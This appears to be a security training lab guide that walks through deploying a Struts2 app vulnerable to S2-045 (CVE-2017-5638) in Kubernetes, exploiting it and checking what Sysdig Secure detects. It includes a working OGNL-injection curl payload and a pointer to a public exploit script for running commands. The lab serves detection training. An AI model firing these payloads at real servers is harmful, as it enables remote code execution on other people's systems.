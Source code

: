 # Vulnerable Struts2 (S2-045) Lab

In this lab, you will deployed a Vulnerable Struts2 workload (S2-045 / CVE-2017-5638) in Kubernetes.

1. **Confirm** you can reach the vulnerable app.  
2. **Exploit** it using a simple malicious payload.  
3. **Observe** detection events in Sysdig Secure.

----------

## 1. Access the Struts2 Application

-  Your instructor or environment will provide the a setup.sh file and a pre-configured cluster hosting the Sysdig Detection Agent  

-  The application will expose on **NodePort 30080**.  

-  Go to `http://<NodeIP>:30080` in a browser or use curl:
 
   curl -v http://<NodeIP>:30080

-  If properly configured - You should recieve a simple file upload form!

-----------

## 2. Exploit  

- **Trigger the RCE** by issuing: 

`curl -v -X POST -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',668.5*2)}.multipart/form-data" http://localhost:30080`

- Alternatively you may use ExplpoitDB: https://www.exploit-db.com/exploits/41570
  Usage: `python2 <script> <url> <command>`

-----------

## 3. **Detection**

- A clear distinction must be made here on how to detect this attack and the limitations posed with Run Time analysis.
- The curl command executes successfully returning 1337 in our custom header "vulhub" - However, will not be picked up in Sysdigas no process was spawned, no file was accessed, and no network anomalies were detected.
- However the python script does yield a Medium severity
- In Sysdig: Navigate to "Threats" -->  "Sysdig Runtime Notable Events" --> Event ID: 18191e49f34866df273474732a500c25
- In short, a header injection will not trigger in Sysdig but a new system process such as 'cat' will. 

